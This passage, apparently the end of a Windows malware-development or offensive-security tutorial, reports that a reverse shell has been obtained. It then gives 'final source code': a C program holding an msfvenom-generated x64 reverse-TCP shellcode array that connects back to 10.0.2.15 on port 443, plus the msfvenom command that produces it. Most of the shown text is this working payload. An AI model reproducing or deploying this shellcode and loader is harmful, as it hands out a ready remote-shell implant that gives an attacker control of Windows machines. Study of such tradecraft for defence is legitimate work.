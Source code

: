 We now have a reverse shell on the system.
![](../assets/images/Pasted%20image%2020240701032211.png)


## Final source code
```c
#include <Windows.h>
#include <stdio.h>
#include <Tlhelp32.h>


// msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.15 LPORT=443 -f c
unsigned char Payload[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00"
"\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\x0a\x00\x02\x0f"
"\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07"
"\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29"
"\x80\x6b\x00\xff\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48"
"\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea"
"\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89"
"\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x48\x81"
"\xc4\x40\x02\x00\x00\x49\xb8\x63\x6d\x64\x00\x00\x00\x00"
"\x00\x41\x50\x41\x50\x48\x89\xe2\x57\x57\x57\x4d\x31\xc0"
"\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44\x24\x54\x01\x01"
"\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6\x56\x50\x41"
"\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff\xc8\x4d"
"\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5\x48"
"\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5"
"\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
"\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";
```